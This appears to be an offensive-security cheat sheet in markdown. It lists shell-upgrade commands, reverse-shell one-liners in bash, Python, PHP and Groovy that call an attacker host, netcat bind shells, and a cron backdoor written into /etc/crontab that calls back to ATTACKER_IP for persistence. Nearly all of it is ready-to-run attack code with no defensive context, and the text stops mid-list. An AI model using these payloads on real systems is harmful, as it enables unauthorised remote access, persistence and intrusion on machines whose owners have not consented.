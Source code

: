 ### Upgrading a shell
- Linux/Unix targets with python
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- Set TERM to resize the terminal
```
export TERM=xterm stty rows <ROWS> cols <COLS>
```
### Reverse shells 
- Set up a listener
```
nc -nlvp <PORT>
```
- Connect to the listener
```
bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```
- python one-liner
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
- PHP one-liner
```
<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
```
- Groovy Reverse-shell (for jenkins)
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
### Create a bind shell
- If outbound connections from the target are restricted create a bind shell instead
- on the target machine
```
nc -nlvp <PORT> -e /bin/bash
```
- from the attacking machine to connect to the target
```
nc <TARGET_IP> <PORT>
```
### Drop a persistent backdoor
- For long-term nested shell reliability, create a persistent backdoor
- Cron
```
echo '* * * * * bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' >> /etc/crontab
```
- Using a service or scheduled task